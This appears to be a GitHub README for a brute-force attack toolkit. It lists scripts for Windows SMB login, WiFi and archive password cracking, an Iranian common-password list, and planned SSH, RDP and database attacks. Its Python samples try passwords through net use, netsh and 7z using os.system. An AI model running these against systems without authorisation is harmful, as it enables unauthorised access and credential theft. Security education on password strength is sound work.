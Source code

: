 # Brute-force attack

**Author:** Peyman Majidi Moein (aka Peymanx) and Ai

This project is related to a YouTube video on the [peymanx](https://www.youtube.com/@peymanx) channel.

## Table of Contents

- [Introduction](#introduction)
- [Sample Code](#sample-code)
- [Content List](#content-list)
- [Resources](#resources)
- [License](#license)
- [TODO](#todo)

## Introduction

This repository contains various scripts and tools for performing brute-force attacks on different systems. The primary goal is to demonstrate the vulnerabilities and educate users on the importance of strong passwords and security measures.  

This repository contains a list of commonly used [passwords in Iran](./passwords/commons_iranians.txt). It's designed to help developers and security professionals understand password patterns in the region, improve password policies, and enhance security measures

## Preview
![login](https://github.com/user-attachments/assets/075a2c88-b7e9-41a7-8ee4-7d8e8392d867)

## Sample Code

```python

def connect_to_smb(ip, username, password):
    command = f'net use \\\\{ip} /user:{username} {password} >nul 2>&1'
    result = os.system(command)
    return result == 0


def connect_to_wifi(ssid, password):
    profile_path = create_wifi_profile(ssid, password)
    add_profile_command = f'netsh wlan add profile filename="{profile_path}"'
    connect_command = f'netsh wlan connect name="{ssid}"'
    os.system(add_profile_command)
    result = os.system(connect_command)
    os.remove(profile_path)
    return result == 0

def connect_to_zip(file, password):
    command = f'7z x "{file}" -p"{password}" -y >nul 2>&1'
    result = os.system(command)
    return result == 0


```

## Content List

- **passwords**
  - More password samples added (Jan 17, 2025)
- **login_hack.py**
  - Windows login hack 
- **wifi_hack.py**
  - WiFi hack 
- **zip_hack.py**
  - Compressed file password hack 

## Resources

- [SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments](https://github.com/danielmiessler/SecLists)
- [Persian Words Jadi :)](https://github.com/jadijadi/persianwords)
- [Iranian-Password-list](https://github.com/Dih4v/Iranian-Password-list)
- [Wikipedia](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## TODO

- [x] Windows Login (smb) Brute-force
- [x] WiFi Modem Password Brute-force
- [ ] SSH Brute-force
- [x] Compress file (zip,rar,...) Brute-force
- [ ] Email Brute-force
- [ ] PDF Lock Brute-force
- [ ] RDP Brute-force
- [ ] SQL Server Connection Strings Brute-force
- [ ] MySql Brute-force
- [ ] Telnet Brute-force
